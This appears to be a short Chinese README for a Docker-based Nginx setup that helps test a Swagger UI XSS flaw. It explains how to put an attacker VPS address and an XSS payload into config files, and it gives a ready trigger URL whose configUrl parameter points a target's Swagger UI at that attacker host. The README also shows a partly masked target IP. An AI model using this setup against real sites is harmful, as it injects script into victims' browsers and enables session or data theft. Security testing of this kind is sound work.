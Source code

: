 # nginx_swagger
这个项目主要用于构建一个Nginx服务端，辅助测试Swagger的XSS漏洞。

## 使用方法

**1、修改test.json中VPS IP为你的VPS地址**

**2、修改test.yaml中的XSS Payload**

**3、启动Nginx**

默认8443端口
docker-compose up -d

**4、触发漏洞**
http://目标/swagger-ui/index.html?configUrl=https://VPS_IP/test.json

# 漏洞原理
![avatar](./1_20220611204136.png)

# 漏洞触发

http://1.116.xxx.112:8089/swagger-ui/index.html?configUrl=https://VPS_IP:8443/test.json

注意：目标是HTTPS的网站，你的VPS 可能需要配置HTTPS，我这里没有测试了。 

# 漏洞效果
![avatar](./2_20220611204136.png)
